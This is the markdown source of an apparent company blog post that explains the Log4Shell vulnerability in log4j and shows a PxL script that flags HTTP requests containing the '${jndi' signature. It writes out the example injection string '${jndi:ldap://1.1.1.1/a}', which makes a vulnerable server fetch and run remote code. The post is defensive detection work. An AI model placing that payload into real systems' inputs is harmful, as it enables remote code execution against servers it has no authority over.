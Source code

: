 ```yaml
---
path: '/did-i-get-owned-by-log4shell'
title: 'Did I get owned by Log4Shell?'
date: 2021-12-10T06:00:00.000+00:00
featured_image: sos-emergency-exit.png
categories: ['Pixie Team Blogs']
authors: ['Omid Azizi', 'James Bartlett', 'Vihang Mehta']
emails: ['oazizi@pixielabs.ai', 'jamesbartlett@pixielabs.ai', 'vihang@pixielabs.ai']
---
```

 
Earlier today, news broke about a serious 0-day exploit in the popular Java logging library `log4j`. The exploit – called `Log4Shell` – allows remote code execution (RCE) by entering certain strings into the log statement. This can be a serious security vulnerability if a server logs the inputs it receives over a public endpoint.

In this post, we'll show how we used Pixie to quickly check for `Log4Shell` attacks in our Kubernetes cluster.

## How Does Log4Shell Work?
In a nutshell, the `Log4Shell` exploit means that if a string containing a substring of the form `${jndi:ldap://1.1.1.1/a}`  is logged, then you may be exposed to a RCE attack. When this string is logged, `log4j` will make a request to the IP, and get a reference to a class file which will then get loaded into your Java application with JNDI. This means your Java application could then be used to execute arbitrary code of the attacker's choice.

Our goal is not to go into too much detail on `Log4Shell`, since others have already done a great job of that. Instead we're going to focus on how Pixie helped us identify whether we were under attack.

For more details on `Log4Shell`, you can check out this blog, which does a good job of explaining the exploit and mitigation: https://www.lunasec.io/docs/blog/log4j-zero-day.

## Are we being attacked?

We don't deploy Java services at Pixie so we were confident that this wasn't an issue for us. But the team was still curious about whether anyone was trying to attack us. Within minutes, a member of our team, James, put out this PxL script which checks for instances of the `Log4Shell` exploit:

```python
import px
 
# Get all HTTP requests automatically traced by Pixie.
df = px.DataFrame('http_events')
 
# Get the pod the HTTP request was made to.
df.pod = df.ctx['pod']
 
# Check HTTP requests for the exploit signature.
df.contains_log4j_exploit = px.contains(df.req_headers, '${jndi') or px.contains(df.req_body, '${jndi')
 
# Filter on requests that are attacking us with the exploit.
df = df[df.contains_log4j_exploit]
 
df = df[['time_', 'remote_addr', 'remote_port', 'req_headers', 'req_method', 'req_path', 'pod']]
 
px.display(df)
```

<svg title="Pixie automatically traces all HTTP traffic flowing through your K8s cluster. Checking the HTTP request headers for the exploit signature exposes numerous attack requests on our staging cluster." src='jndi-http-logs.png' />

<svg title="The contents of one of the HTTP attack requests. Note the '${jndi' exploit signature with originating IP address." src='jndi-referrer-details.png' />

Questions? Find us on [Slack](https://slackin.px.dev/) or Twitter at [@pixie_run](https://twitter.com/pixie_run).
